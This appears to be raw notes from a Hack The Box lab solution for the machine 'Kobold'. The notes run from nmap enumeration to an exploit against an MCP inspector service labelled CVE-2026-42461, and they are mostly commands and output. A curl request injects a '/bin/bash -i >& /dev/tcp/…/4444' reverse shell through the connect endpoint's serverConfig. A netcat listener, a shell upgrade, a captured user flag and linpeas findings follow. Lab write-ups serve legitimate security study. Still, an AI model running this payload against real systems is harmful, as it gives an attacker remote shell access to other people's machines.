

# Kobold

sudo nmap -sCV 10.129.245.50

Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-02 22:26 EDT

Nmap scan report for 10.129.245.50

Host is up (0.0079s latency).

Not shown: 997 closed tcp ports (reset)

PORT    STATE SERVICE  VERSION

22/tcp  open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey:

|   256 8c:45:12:36:03:61:de:0f:0b:2b:c3:9b:2a:92:59:a1 (ECDSA)

|_  256 d2:3c:bf:ed:55:4a:52:13:b5:34:d2:fb:8f:e4:93:bd (ED25519)

80/tcp  open  http     nginx 1.24.0 (Ubuntu)

|_http-server-header: nginx/1.24.0 (Ubuntu)

|_http-title: Did not follow redirect to https://kobold.htb/

443/tcp open  ssl/http nginx 1.24.0 (Ubuntu)

| tls-alpn:

|   http/1.1

|   http/1.0

|_  http/0.9

|_ssl-date: TLS randomness does not represent time

|_http-server-header: nginx/1.24.0 (Ubuntu)

| ssl-cert: Subject: commonName=kobold.htb

| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb

| Not valid before: 2026-03-15T15:08:55

|_Not valid after:  2125-02-19T15:08:55

|_http-title: Did not follow redirect to https://kobold.htb/

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

sudo nmap -p- -T5 10.129.245.50

Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-02 22:26 EDT

Nmap scan report for 10.129.245.50

Host is up (0.0073s latency).

Not shown: 65531 closed tcp ports (reset)

PORT     STATE SERVICE

22/tcp   open  ssh

80/tcp   open  http

443/tcp  open  https

3552/tcp open  taserver

Nmap done: 1 IP address (1 host up) scanned in 7.60 seconds

┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-dovrofoolb]─[~]

└──╼ [★]$ sudo nmap -p3552 -sCV 10.129.245.50

Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-02 22:28 EDT

Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan

Service scan Timing: About 0.00% done

Nmap scan report for kobold.htb (10.129.245.50)

Host is up (0.071s latency).

PORT     STATE SERVICE VERSION

3552/tcp open  http    Golang net/http server

| fingerprint-strings:

|   GenericLines:

|     HTTP/1.1 400 Bad Request

|     Content-Type: text/plain; charset=utf-8

|     Connection: close

|     Request

|   GetRequest, HTTPOptions:

|     HTTP/1.0 200 OK

|     Accept-Ranges: bytes

|     Cache-Control: no-cache, no-store, must-revalidate

|     Content-Length: 2081

|     Content-Type: text/html; charset=utf-8

|     Expires: 0

|     Pragma: no-cache

|     Date: Wed, 03 Jun 2026 02:28:46 GMT

|     <!doctype html>

|     <html lang="%lang%">

|     <head>

|     <meta charset="utf-8" />

CVE-2026-42461

mkdir mcp-srv && cd mcp-srv
npm init -y
npm i @modelcontextprotocol/sdk express zod

cat [server.py](http://server.py/)
from mcp.server.fastmcp import FastMCP

stateless_http=True avoids session juggling; host 0.0.0.0 so the lab can reach it

mcp = FastMCP("kobold-poc", host="0.0.0.0", port=3000, stateless_http=True)

@mcp.tool()
def ping(msg: str) -> str:
return f"pong: {msg}"

if **name** == "**main**":
mcp.run(transport="streamable-http")  # serves on /mcp

python [server.py](http://server.py/)

curl [https://mcp.kobold.htb/api/mcp/connect](https://mcp.kobold.htb/api/mcp/connect) --header "Content-Type: application/json" --data "{\"serverConfig\":{\"command\":\"/bin/bash\",\"args\":[\"-c\", \"/bin/bash -i >& /dev/tcp/10.10.15.206/4444 0>&1\"],\"env\":{}},\"serverId\":\"pwne\"}" -k

──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.13.137 47948
bash: cannot set terminal process group (1546): Inappropriate ioctl for device
bash: no job control in this shell
ben@kobold:/usr/local/lib/node_modules/@mcpjam/inspector$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<tor$ python3 -c 'import pty;pty.spawn("/bin/bash")'

ben@kobold:/usr/local/lib/node_modules/@mcpjam/inspector$ stty raw -echo
stty raw -echo
ben@kobold:/usr/local/lib/node_modules/@mcpjam/inspector$

ben@kobold:~$ cat user.txt
159cc728d32c3d0dddeff108d8cd7c1b

interesting linpeas output

══╣ Local-only listeners (loopback) (T1049)
tcp   LISTEN 0      511        127.0.0.1:6274       0.0.0.0:*    users:(("node",pid=1652,fd=33))
tcp   LISTEN 0      4096       127.0.0.1:38517      0.0.0.0:*

tcp   LISTEN 0      4096       127.0.0.1:8080       0.0.0.0:*